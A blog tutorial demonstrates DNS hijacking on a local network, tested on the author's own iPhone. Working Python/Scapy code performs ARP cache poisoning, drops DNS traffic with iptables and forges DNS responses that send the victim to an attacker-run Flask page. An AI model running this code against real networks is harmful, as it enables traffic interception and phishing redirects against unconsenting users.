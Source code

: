 ```yaml
---
title: "Performing DNS Hijacking to Redirect Users to a Fake Website"
date: 2019-08-22
toc: true
toc_label: "Table of Contents"
categories:
  - blog
tags:
  - Network Security
  - DNS Hijacking
  - ARP Spoofing
  - Scapy
---
```


# Introduction
In my previous post, we had a look at poisoning ARP caches which allowed us to intercept messages
being sent to and from the target. In this post, we utilize that to intercept all DNS requests of the
target and provide a spoofed reply pointing to a web server running on our machine.

# DNS
Everytime a user types in an URL into the browser or any web client, the client resolves or "translates" the URL into an IP address. It does this to identify where to send the corresponding HTTP request. To translate the URL into an IP address, the following steps take place:

1. The browser first queries the OS with the request asking if it knows the IP address,
2. the OS checks it's local cache and the HOSTS file which contains mappings between URLs and IP address,
3. if the OS does not find any mappings, it will query the local DNS resolver which is usually provided by your ISP,
4. the DNS resolver will also check if it has an answer. If it doesn't, it will recursivelly query
the nameservers till it receives a response from the nameserver responsible for the domain.  

Once the IP address is retreived, the client sends the HTTP request and displays the page returned.

# DNS Spoofing
Since we need the target's traffic to pass through our system, we need to poison both the router's and target's ARP cache. This can be done in the following manner.

```python
# Poison router's cache (Scapy will automatically fill in the ethernet frame with our MAC)
send(ARP(op=2, psrc=g_target_ip, pdst=g_router_ip, hwdst=router_mac), verbose=0)

# Poison target's cache
send(ARP(op=2, psrc=g_router_ip, pdst=g_target_ip, hwdst=target_mac), verbose=0)

# Sleep to prevent flooding
time.sleep(2)
```

Once we poison the ARP caches, the target's traffic passes through our system. Now we can control the traffic, i.e., we can decide on what to forward and what not to. By stopping all DNS queries from the target, we can then send a spoofed DNS response pointing to our system. This will cause the target to send an HTTP request to our machine. We can stop forwarding all DNS messages in the following manner.

```python
print("Enabling IP forwarding")
# Check to see if we are on linux
if (platform.system() == "Linux"):
  # Enable IP forwarding
  ipf = open('/proc/sys/net/ipv4/ip_forward', 'r+')
  ipf_read = ipf.read()
  if (ipf_read != '1\n'):
    ipf.write('1\n')
  ipf.close()

  # Disable DNS Query forwarding
  firewall = "iptables -A FORWARD -p UDP --dport 53 -j DROP"
  Popen([firewall], shell=True, stdout=PIPE)
```

Now, since all the DNS messages are dropped, we need to provide the target with a spoofed DNS response. Failing to do so can lead to DOS since the target will not be able to resolve the URL to any IP address. We can send a spoofed DNS answer in the following manner.

```python
if (pkt[IP].src == g_target_ip and
    pkt.haslayer(DNS) and
    pkt[DNS].qr == 0 and        # DNS Query
    pkt[DNS].opcode == 0 and    # DNS Standard Query
    pkt[DNS].ancount == 0       # Answer Count
    ):

  print("Sending spoofed DNS response")

  if (pkt.haslayer(IPv6)):
    ip_layer = IPv6(src=pkt[IPv6].dst, dst=pkt[IPv6].src)
  else:
    ip_layer = IP(src=pkt[IP].dst, dst=pkt[IP].src)

  # Create the spoofed DNS response (returning back our IP as the answer instead of the endpoint)
  dns_resp =  ip_layer/ \
        UDP(
          dport=pkt[UDP].sport,
          sport=53
          )/ \
        DNS(
          id=pkt[DNS].id,       # Same as query
          ancount=1,            # Number of answers
          qr=1,                 # DNS Response
          ra=1,                 # Recursion available
          qd=(pkt.getlayer(DNS)).qd,  # Query Data
          an=DNSRR(
            rrname=pkt[DNSQR].qname,  # Queried host name
            rdata=g_server_ip,        # IP address of queried host name
            ttl = 10
            )
          )

  # Send the spoofed DNS response
  print(dns_resp.show())
  send(dns_resp, verbose=0)
  print(f"Resolved DNS request for {pkt[DNS].qd.qname} by {g_server_ip}")
```

In the above code, *pkt* holds the DNS request intercepted by our machine. Using it, we send a DNS response saying that the URL maps to our IP address. Now since the target will start sending HTTP/HTTPS request to our machine, we need to respond to those with our webpage. A simple demonstration can be shown using Flask in the following manner.

```python
from flask import Flask

app = Flask(__name__)

@app.route('/')
def spoofed_page():
    return '<h1 align="center">You have been pwned!</h1>'

@app.route('/<path:dummy>')
def spoofed_dir(dummy):
  return '<h1 align="center">You have been pwned!</h1>'

if __name__ == '__main__':
  app.run(host='192.168.137.1', ssl_context='adhoc', port=443)
```
The host argument must be set to the IP address on which the webserver is being run on. Now any page accessed by the target will be return the html given above.

# Results
I am running the dns-hijacker and the web server on a Raspberry PI 3B+ with the target as my iPhone.

![dns-hijacker](../../assets/videos/dns-hijacker.gif)

Once the DNS hijacker and the web server are started, sending a request from my iPhone results in the following.

![pwned](../../assets/videos/pwned.gif)

We can see that a GET request to `victoria.dev` was successfully redirected to our webpage. yaaa. Note that the warning can be removed by supplying phony certificates, but that topic is for another post.

The full script is available on my github [page][page].

[page]: https://github.com/venkat-abhi/dns-redirector